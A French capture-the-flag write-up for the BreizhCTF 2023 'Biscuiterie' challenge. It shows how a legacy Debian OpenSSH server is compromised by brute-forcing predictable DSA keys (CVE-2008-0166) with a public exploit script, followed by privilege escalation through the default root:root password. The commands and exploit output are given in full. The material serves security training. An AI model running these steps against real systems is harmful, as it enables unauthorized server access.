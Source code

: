 BreizhCTF 2023 - Biscuiterie
============================

### Challenge details

| Event          | Challenge   | Category      | Points | Solves |
| -------------- | ----------- | ------------- | ------ | ------ |
| BreizhCTF 2023 | Biscuiterie | Cryptographie | ???    | ???    |


![biscuit](https://media.tenor.com/pBaiDj5PJzQAAAAC/cookies-biscuits.gif)

Owen est administrateur de la célèbre biscuiterie bretonne 'Le Poti Beurre' fondée en 1866.
Faute de budget, le parc informatique est aussi vieux que l'entreprise, et la machine d'administration d'Owen a rendu l'âme ce matin.
Aidez Owen à reprendre la main sur le serveur de production de biscuits.

Voici quelques informations afin de vous aider dans votre tâche :
- Owen administrait ses serveurs en SSH sous le nom d'utilisateur `owen` ;
- N'étant pas un grand fan de mot de passe, Owen utilisait des clés SSH "sécurisées" pour chacuns de ses serveurs ;
- Le serveur de production de la biscuiterie est un vieux serveur sous Debian.

Auteur: [Zeecka](https://twitter.com/Zeecka_)

`ssh -p 30010 challenge.ctf.bzh`

### TL;DR

Le serveur ssh est vulnérable à la [CVE-2008-0166](https://nvd.nist.gov/vuln/detail/CVE-2008-0166), ce qui permet à un attaquant de bruteforcer [de manière optimisée](https://github.com/g0tmi1k/debian-ssh) les clés SSH.

### Méthodologie

Dans un premier temps nous récupérons la version du serveur SSH de la biscuiterie;

```bash
nc biscuiterie.ctf.bzh 22
```
```plaintext
SSH-1.99-OpenSSH_4.6
```

En tentant de se connecter avec l'utilisateur `owen`, nous obtenons une première erreur:

```bash
ssh owen@biscuiterie.ctf.bzh
```
```plaintext
Unable to negotiate with biscuiterie.ctf.bzh port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

Cette erreur est liée à notre version de client SSH trop récente pour supporter les formats ssha-rsa et ssh-dss. DSS étant le format de clé pour DSA, nous allons ajouter les options de support pour ssh-dss à notre client.

```bash
ssh -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-dss owen@biscuiterie.ctf.bzh
```
```plaintext
owen@127.0.0.1: Permission denied (publickey).
```

> A la première tentative, une erreur liée au fichier `known_hosts` peut apparaître.

Nous pouvons confirmer que le serveur requiert une authentification par clé uniquement puisqu'aucun mot de passe n'est demandé.

Un recherche avec les mots clés suivants permet de tomber sur la [CVE-2008-0166](https://nvd.nist.gov/vuln/detail/CVE-2008-0166).
- OpenSSH 4.6
- Vulnerability
- Exploit
- DSA
- Key

La description de la CVE indique qu'un attaquant peut effectuer une attaque par bruteforce sur les clés SSH à cause d'un problème liée à la génération des clés.

De nombreux exploits sont displonibles à travers le web, nous alons retenir le repository github de [g0tmi1k](https://github.com/g0tmi1k/debian-ssh) proposant la [liste complète des clés DSA 1024](https://github.com/g0tmi1k/debian-ssh/blob/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2) pour les serveurs Debian vulnérables. Le repository contient également des liens vers des scripts d'exploit dans plusieurs langages, nous allons utiliser [l'exploit écrit en python 2](https://www.exploit-db.com/exploits/5720/).

Il ne suffit plus que de lancer l'exploit en spécifiant le bon utilisateur, le dossier contenant les différentes clés possibles, et le serveur vulnérable. Une modification du script peut être néncessaire pour ajouter les options `-oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-dss` (l.69 à coté de `-o PasswordAuthentication=no`).

```bash
python exploit.py ./dsa/1024 biscuiterie.ctf.bzh owen
```
```plaintext
-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
Tested 163 keys | Remaining 32605 keys | Aprox. Speed 32/sec
Tested 332 keys | Remaining 32436 keys | Aprox. Speed 33/sec
...
Key Found in file: ff4602062c7d74bef8830c3e850c5022-10350
Execute: ssh -lowen -p22 -i ./dsa/1024/ff4602062c7d74bef8830c3e850c5022-10350 biscuiterie.ctf.bzh
```

Nous pouvons ensuite nous connecter avec la commande ssh suivante :
```bash
ssh -l owen -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-dss -i ./dsa/1024/ff4602062c7d74bef8830c3e850c5022-10350 biscuiterie.ctf.bzh
cat flag_user.txt
```
```plaintext
Préparation : 20min
Cuisson : 10min

1. Mélanger le beurre et le sucre.
   Ajouter l’oeuf et mélanger.
   Ajouter ensuite toute la farine d'un coup et malaxer à la main.

2. Réserver la pâte au frais, emballée dans un film alimentaire pendant au moins 1 heure.

------

Flag (part 1/2): BZHCTF{75%_de_Beurre_
```

L'élévation de privilège se fait ensuite à l'aide des identifiants faibles `root:root`:

```bash
$ su root
# cat flag_root.txt
```
```plaintext

3. Etaler au rouleau sur un plan de travail fariné sur une épaisseur de 5 mm environ.
   Utiliser des emporte-pièces pour faire les découpes.

4. Enfourner pendant 10 à 12 minutes à 180°C sur une plaque recouverte de papier cuisson.

5. Placer aussitôt les sablés sur une grille pour les faire refroidir. 
   Les sablés se conservent longtemps dans une boîte en métal hermétique.

------

Flag (part 1/2): et_75%_de_Sucre}
```

#### Flag

`BZHCTF{75%_de_Beurre_et_75%_de_Sucre}`

Auteur: [Zeecka](https://twitter.com/zeecka_)
